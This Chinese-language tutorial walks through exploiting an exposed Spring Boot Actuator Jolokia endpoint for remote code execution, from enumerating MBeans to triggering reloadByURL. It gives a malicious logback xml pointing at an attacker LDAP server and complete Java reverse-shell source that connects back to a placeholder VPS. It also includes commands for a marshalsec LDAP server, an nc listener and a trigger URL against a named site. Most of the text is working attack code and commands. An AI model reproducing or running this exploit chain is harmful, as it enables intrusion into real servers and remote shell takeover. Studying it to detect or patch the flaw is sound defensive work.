 Spring Boot Actuator jolokia 配置不当导致的rce漏洞
==================================================

一、漏洞简介
------------

### 利用条件：

-   目标网站存在 /jolokia 或 /actuator/jolokia 接口

-   目标使用了 jolokia-core 依赖（版本要求暂未知）并且环境中存在相关
    MBean

-   目标可以请求攻击者的 HTTP 服务器（请求可出外网）

-   ldap 注入可能会受目标 JDK 版本影响，jdk \< 6u201/7u191/8u182/11.0.1

二、漏洞影响
------------

三、复现过程
------------

### 漏洞原理

-   直接访问可触发漏洞的 URL，相当于通过 jolokia 调用
    ch.qos.logback.classic.jmx.JMXConfigurator 类的 reloadByURL 方法
-   目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
-   目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
-   xml 文件中利用 logback 依赖的 insertFormJNDI 标签，设置了外部 JNDI
    服务器地址
-   目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

### 漏洞复现

### 步骤一：查看已存在的 MBeans

访问 **/jolokia/list** 接口，查看是否存在
**ch.qos.logback.classic.jmx.JMXConfigurator** 和 **reloadByURL**
关键词。![111.png](resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId28.png)![222.png](resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId29.png)

### 步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP
服务端口（80、443）

    使用 python 快速开启 http server

    python2 -m SimpleHTTPServer 80
    python3 -m http.server 80

在根目录放置以 xml 结尾的 ian.xml 文件，内容如下：

    <configuration>
      <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
    </configuration>

### 步骤三：准备要执行的 Java 代码

使用兼容低版本 jdk 的方式编译：

    javac -source 1.5 -target 1.5 JNDIObject.java

然后将生成的 **JNDIObject.class** 文件拷贝到刚刚用py开启的网站根目录。

    JNDIObject.java //请自行修改代码中反弹shell的ip和端口
    /**
     *  javac -source 1.5 -target 1.5 JNDIObject.java
     *
     *  Build By LandGrey
     * */

    import java.io.File;
    import java.io.InputStream;
    import java.io.OutputStream;
    import java.net.Socket;

    public class JNDIObject {
        static {
            try{
                String ip = "your-vps-ip";
                String port = "443";
                String py_path = null;
                String[] cmd;
                if (!System.getProperty("os.name").toLowerCase().contains("windows")) {
                    String[] py_envs = new String[]{"/bin/python", "/bin/python3", "/usr/bin/python", "/usr/bin/python3", "/usr/local/bin/python", "/usr/local/bin/python3"};
                    for(int i = 0; i < py_envs.length; ++i) {
                        String py = py_envs[i];
                        if ((new File(py)).exists()) {
                            py_path = py;
                            break;
                        }
                    }
                    if (py_path != null) {
                        if ((new File("/bin/bash")).exists()) {
                            cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/bash\")"};
                        } else {
                            cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/sh\")"};
                        }
                    } else {
                        if ((new File("/bin/bash")).exists()) {
                            cmd = new String[]{"/bin/bash"};
                        } else {
                            cmd = new String[]{"/bin/sh"};
                        }
                    }
                } else {
                    cmd = new String[]{"cmd.exe"};
                }
                Process p = (new ProcessBuilder(cmd)).redirectErrorStream(true).start();
                Socket s = new Socket(ip, Integer.parseInt(port));
                InputStream pi = p.getInputStream();
                InputStream pe = p.getErrorStream();
                InputStream si = s.getInputStream();
                OutputStream po = p.getOutputStream();
                OutputStream so = s.getOutputStream();
                while(!s.isClosed()) {
                    while(pi.available() > 0) {
                        so.write(pi.read());
                    }
                    while(pe.available() > 0) {
                        so.write(pe.read());
                    }
                    while(si.available() > 0) {
                        po.write(si.read());
                    }
                    so.flush();
                    po.flush();
                    Thread.sleep(50L);
                    try {
                        p.exitValue();
                        break;
                    } catch (Exception e) {
                    }
                }
                p.destroy();
                s.close();
            }catch (Throwable e){
                e.printStackTrace();
            }
        }
    }

![444.png](resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId32.png)

### 步骤四：架设恶意 ldap 服务

下载 **marshalsec** ，使用下面命令架设对应的 **ldap** 服务：

    https://github.com/ianxtianxt/marshalsec

***ps:我这里发的是源码，需要用mvn编译marshalsec***

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389

### 步骤五：监听反弹 shell 的端口

    nc -lvvp 你上一步代码里设置的端口

### 步骤六：从外部 URL 地址加载日志配置文件

    如果目标成功请求了ian.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

    https://www.0-sec.org/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/ian.xml

**服务器请求日志**![请求1.png](resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId36.png)![请求2.png](resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId37.png)
